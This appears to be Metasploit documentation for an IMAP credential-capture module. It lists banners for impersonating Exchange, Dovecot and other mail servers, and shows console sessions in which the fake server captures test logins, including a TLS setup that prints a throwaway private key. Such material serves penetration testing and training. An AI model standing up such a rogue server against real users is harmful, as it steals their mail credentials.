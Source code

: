 This module creates a mock IMAP server which accepts credentials.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/imap```
  3. Do: ```run```

## Options

  **BANNER**

  The Banner which should be displayed.  Default is `IMAP4`.
  Some notable banners to emulate:

  * `Dovecot ready.`
  * `IMAP 4 Server (IMail 9.23)`
  * `mailserver Cyrus IMAP4 v2.2.13-Debian-2.2.13-19 server ready`
  * `Welcome to Binc IMAP v1.3.4 Copyright (C) 2002-2005 Andreas Aardal Hanssen at 2018-11-08 11:17:35 +1100`
  * `The Microsoft Exchange IMAP4 service is ready.`
  * `Microsoft Exchange Server 2003 IMAP4rev1 server versino 6.5.7638.1 (domain.local) ready.`

  **SSL**

  Boolean if SSL should be used, making this Secure IMAP.  Secure IMAP is typically run on port 993.  If `SSLCert` is not set, a certificate
  will be automatically generated.  Default is `False`.

  **SSLCert**

  File path to a combined Private Key and Certificate file.  If not provided, a certificate will be automatically
  generated.  Default is ``.

## Scenarios

### IMAP Emulating Microsoft Exchange with Telnet Client

Server:

```
msf5 > use auxiliary/server/capture/imap 
msf5 auxiliary(server/capture/imap) > set banner "The Microsoft Exchange IMAP4 service is ready."
banner => The Microsoft Exchange IMAP4 service is ready.
msf5 auxiliary(server/capture/imap) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/imap) > 
[*] Started service listener on 0.0.0.0:143 
[*] Server started.
[*] IMAP LOGIN 127.0.0.1:42972 metasploit@documentation.com / rapid7#1
```

Client:

```
root@kali:~# telnet 127.0.0.1 143
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
* OK The Microsoft Exchange IMAP4 service is ready.
01 LOGIN metasploit@documentation.com rapid7#1
quit
Connection closed by foreign host.
```

### Secure IMAP with Self-Signed Certificate and Alpine client

Server:

```
msf5 > openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
[*] exec: openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.................................................................................................+++++
...................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
msf5 > cat key.pem certificate.pem > selfsigned.pem
[*] exec: cat key.pem certificate.pem > selfsigned.pem

msf5 > cat /root/metasploit-framework/selfsigned.pem
[*] exec: cat /root/metasploit-framework/selfsigned.pem

-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDAXME8r2vEUH7B
Kelkt9iC4tTozOq0wJAjsACLCDcNoD4hUH16wy4Uf4SD3ZsEaL0YA0GU2ZgOo2ud
USBpOo8h9FEGtRrAAeSl7Z3XaBnuB7UmVMrnUVZxlaYi84JcopcTOs6KZ5VXddia
PEkE5G3jaCwOIqHk+c8Qk5b43HQbkj2jr4051gHeWP0UgBEy1TVPKtoywtyK1b5H
QhX7MYVNge8lQL/xJnBrjMDqIQqc41lCI73EPCuGZ7zB06xBsgyW/DTgQkprX+Qe
DVKtz8ZChLSqSwmz/5yFttRyZlDuXA7Kozhdj8obRAjzK/gKj89WsX/s2KUbq2GY
pdMpLh7/AgMBAAECggEBALCtQKpdMCzqBdGijgP8u3ZToluDwlprtregco8/51iz
gf0VMXqsg8k96dc3laZyEKNackSlqfxf6npeRdeAenAkNrtjYYNS+c/Qs7Vhntc5
6w6euJHG6g9+9E2LvIMarolx7LvAMbFXwq6+ig5dQ/Sm/DerZWiqbJ18ASDnUhjz
G1Y8/Idy4WutPZD/0JEQ+5VnHb+Mt3a7yYKhDsmUEzVh5xoWJab9dwfwCnoOb32T
oLOLLsqUbAK8ZiQ4MwkbGJ5kw8H24wVmI+7BbuRacW2tIIt6Z+vEoLdof0TsuJWo
87ZbCYYeTysIgBIdLNRiGGxz43SOqBBGh8sreyyACdECgYEA6Ubs1Klw3TViABke
1JqkWelZi6mtsyUHJt/eChjMzgg5vGVuYB/sCc+BObjETbfnvuV0Ub4cxbUCF3wL
qvrJNTd+yU7JJ7IP63B2lS3aNlAsLRb59SkjDYyym1OeUAHKkGp8oICSq96X3Xtu
KUZnDdh2UuoMzmEoAHoDoc+SC/cCgYEA0xmQ+qDJ4l3JRH/IPMPe9XD90WFJFhvF
GzGSM8qqpg6N2xhlzQiM6+I4EEh9iNnCOYmvw9leGNRpIjFjAhv5ntlG3LudAEpd
Ml/hhrfRB7KOopiqzK7oVCUv5f5rmvYdL4c2FC+VGxnhWUP6MARUHag/1DgszMs7
wSlwcbKi8zkCgYBMvRc1khPdwSze6WSZ/dEo/rmFVykb8Idcw3Iwkh31fQE5N4jK
uFWWmJtjGKQDCQeEZckRBuBCLZxli1nvQhakmf/sSy2jEFFqWxG3W2EYUuFlZ9SM
UJ8GWw16SVSf7ybqwQ0EY6dcQJpmsq73hwBprpamCfZygcV9+qVtOnJJ2wKBgBKY
ZPH+6em70zfqfawEoQZD3sfr5vFAnvtHQZa4WpHoJEzReF44S5mXwtKEYDKG5BoH
a+k3o5dSVrSBXzRXXITGpPxatnjJFC6UzZv9YzdnXjMqeZkwKx0GbZK396id13JR
Wc0rZ9oMTJJ9b3N9Xh+Cq6S5EhE0Md5RFSuezcXZAoGBAJOMfjbwobOCYm6K8PyV
p89gbnDOj7FHCg2JPa9/dii6pBRHXeUfORp00GfN0oAjjJo14SmOw58zh1mF1VcA
BQhTK9TO4GXIEZDiYt9EmiH1VO58I8vUecBcbelirumGOP+dBiBy/C8YzFJRhAis
eAGSi8F+qcJaS3VDRGEC9zcK
-----END PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIDazCCAlOgAwIBAgIUMlkpAG2tXodgLSrIf/xOuA9z8PwwDQYJKoZIhvcNAQEL
BQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUxITAfBgNVBAoM
GEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDAeFw0xODExMDkwMTI3MTRaFw0xOTEx
MDkwMTI3MTRaMEUxCzAJBgNVBAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEw
HwYDVQQKDBhJbnRlcm5ldCBXaWRnaXRzIFB0eSBMdGQwggEiMA0GCSqGSIb3DQEB
AQUAA4IBDwAwggEKAoIBAQDAXME8r2vEUH7BKelkt9iC4tTozOq0wJAjsACLCDcN
oD4hUH16wy4Uf4SD3ZsEaL0YA0GU2ZgOo2udUSBpOo8h9FEGtRrAAeSl7Z3XaBnu
B7UmVMrnUVZxlaYi84JcopcTOs6KZ5VXddiaPEkE5G3jaCwOIqHk+c8Qk5b43HQb
kj2jr4051gHeWP0UgBEy1TVPKtoywtyK1b5HQhX7MYVNge8lQL/xJnBrjMDqIQqc
41lCI73EPCuGZ7zB06xBsgyW/DTgQkprX+QeDVKtz8ZChLSqSwmz/5yFttRyZlDu
XA7Kozhdj8obRAjzK/gKj89WsX/s2KUbq2GYpdMpLh7/AgMBAAGjUzBRMB0GA1Ud
DgQWBBRezbFZBumaJ/MViZqqbllYrPomMzAfBgNVHSMEGDAWgBRezbFZBumaJ/MV
iZqqbllYrPomMzAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQAd
Smkooa2nhdDdu3/uHX8vhDC0ns5qotgd0YKGkj/QyzNP+ruP1cyq/q67zand/Eq8
gF+lHk+pX8GM0WvI7ypgrK956YCdmh3DULBFDu5RxVABFWrGedfNy6TKLTps0PXR
9mdB/HK0Msr6Mh/o5PkUhb1fx0T3NUwF1EFte7Nsq10Mq+hYVnEqDeEGMlb73frJ
729tCjNpFoLGdlgEcAEFelAujV0w4oj35CE2Fh3b+4wupDiulfgg9E7FtvS9xK0P
l/m7Kka0n7lXnKo+IFSJ0dTooBvwaV7+4tEGuHxWJsNO+2aex9qFCuDUdBFxyWyK
uBVlsY6F7EjTfWpxwyVP
-----END CERTIFICATE-----
msf5 > use auxiliary/server/capture/imap 
msf5 auxiliary(server/capture/imap) > set ssl true
ssl => true
msf5 auxiliary(server/capture/imap) > set sslcert /root/metasploit-framework/selfsigned.pem
sslcert => /root/metasploit-framework/selfsigned.pem
msf5 auxiliary(server/capture/imap) > set srvport 993
srvport => 993
msf5 auxiliary(server/capture/imap) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/imap) > 
[*] Started service listener on 0.0.0.0:993 
[*] Server started.
[+] IMAP LOGIN 127.0.0.1:59024 "johndoe" / "p455w0rd"
```

Clients:

```
root@kali:~# cat ~/.muttrc
set spoolfile="imaps://johndoe:p455w0rd@127.0.0.1/INBOX"
set folder="imaps://127.0.0.1/INBOX"
set record="=Sent"
set postponed="=Drafts"

root@kali:~# mutt
```

The user is prompted about the invalid certificate, and the client gets stuck at "Logging in...", however
it doesn't matter since the credentials have already been sent.
